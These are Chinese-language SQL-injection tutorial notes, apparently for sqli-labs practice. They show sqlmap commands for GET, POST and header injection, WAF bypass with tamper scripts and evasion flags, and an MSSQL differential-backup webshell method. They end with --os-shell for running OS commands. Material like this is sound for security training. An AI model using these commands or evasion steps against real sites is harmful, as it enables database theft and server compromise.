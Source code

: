 ## SQLMap怎么对一个注入点进行注入？

1、get类型注入，直接sqlmap -u url地址
2、post类型，（1）sqlmap -u url --data=post的参数 （2）sqlmap -r 请求数据包的文件地址

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

3、header注入，sqlmap -r 请求数据包的文件地址
注：在进行post注入或header注入时，可以使用*标记注入点

## MSSQL差异备份怎么getshell

前提条件：
1、MSSQL具体dbo和sa权限（数据库备份权限）
2、支持堆叠查询
3、知道网站绝对路径
实现原理
完整备份后，再次对数据库进行修改，差异备份会记录最后的LSN，将shell写入数据库，备份成asp即可getshell。

## SQL注入Bypass（过waf）思路

1、内联注释绕过
2、填充脏数据绕过
3、更改请求方式，如GET改为POST
4、随机agent绕过
5、fuzz过滤函数，函数替换绕过
6、sqlmap,tamper脚本绕过----上述思路



## **对于需要登录的网站，我们需要指定其cookie**

##### 我们可以用账号密码登录，然后用`bp`抓取其cookie填入

```
sqlmap -u  "http://xxx/sqli/Less-1/?id=1"   --cookie="抓取的cookie"
```

##### **对于是post提交数据的URL，我们需要指定其data参数**

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

##### 下面是sqlmap参数绕过waf的一些命令

```
#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

有些时候网站会过滤掉各种字符，可以用tamper来解决（对付某些waf时也有成效）

sqlmap 官方提供了70个绕过脚本（不是53个，我的版本是1.7.3.4），脚本目录在`/usr/share/sqlmap/tamper`中

指定单个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper=space2plus.py 
```

指定多个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="space2comment.py,space2plus.py"
```

## 探测等级和危险等级(—level —risk)

sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5

危险等级：此参数用于指定风险等级，有1~3共3级。默认风险等级为1,此等级在大多数情况下对测试目标无害。 风险等级2添加了基于时间的注入测试,等级3添加了OR测试

## 执行操作系统命令(—os-shell)

在数据库为MySQL、PostgreSql或者SQL Server时，可以通过sqlmap执行操作系统命令

**当为MySQL数据库时，需满足下面条件：**

- 当前用户为 root

- 知道网站根目录的绝对路径

- ```
  sqlmap -u "http://xxx:7777/Less-1/?id=1" --os-shell
  ```

  
